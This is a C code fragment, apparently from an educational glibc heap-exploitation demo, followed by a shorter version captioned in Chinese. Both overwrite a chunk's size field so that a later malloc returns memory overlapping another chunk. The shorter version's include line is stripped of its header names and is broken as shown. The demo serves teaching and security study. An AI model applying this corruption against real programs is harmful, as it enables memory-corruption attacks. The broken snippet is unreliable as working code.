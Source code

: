 ```
    printf("We are going to set the size of chunk p2 to to %d, which gives us\na region size of %d\n",
         evil_chunk_size, evil_region_size);
 
    /* VULNERABILITY */
    *(p2-1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2
    /* VULNERABILITY */
 
    printf("\nNow let's free the chunk p2\n");
    free(p2);
    printf("The chunk p2 is now in the unsorted bin ready to serve possible\nnew malloc() of its size\n");
 
    printf("\nNow let's allocate another chunk with a size equal to the data\n"
           "size of the chunk p2 injected size\n");
    printf("This malloc will be served from the previously freed chunk that\n"
           "is parked in the unsorted bin which size has been modified by us\n");
    p4 = malloc(evil_region_size);
 
    printf("\np4 has been allocated at %p and ends at %p\n", (char *)p4, (char *)p4+evil_region_size);
    printf("p3 starts at %p and ends at %p\n", (char *)p3, (char *)p3+0x580-8);
    printf("p4 should overlap with p3, in this case p4 includes all p3.\n");
 
    printf("\nNow everything copied inside chunk p4 can overwrites data on\nchunk p3,"
           " and data written to chunk p3 can overwrite data\nstored in the p4 chunk.\n\n");
 
    printf("Let's run through an example. Right now, we have:\n");
    printf("p4 = %s\n", (char *)p4);
    printf("p3 = %s\n", (char *)p3);
 
    printf("\nIf we memset(p4, '4', %d), we have:\n", evil_region_size);
    memset(p4, '4', evil_region_size);
    printf("p4 = %s\n", (char *)p4);
    printf("p3 = %s\n", (char *)p3);
 
    printf("\nAnd if we then memset(p3, '3', 80), we have:\n");
    memset(p3, '3', 80);
    printf("p4 = %s\n", (char *)p4);
    printf("p3 = %s\n", (char *)p3);
 
    assert(strstr((char *)p4, (char *)p3));
} 
```

简化版本：

```
#include #include #include #include int main(int argc , char* argv[])
{
    char *a = malloc(0x28);
    char *b = malloc(0x28);
    *(a-8) = 0x61;
    free(a);
    char *c = malloc(0x58);
    memset(c, 'c', 0x58);
    memset(b, 'b', 0x28);
    assert(strstr(c,b));
} 
```
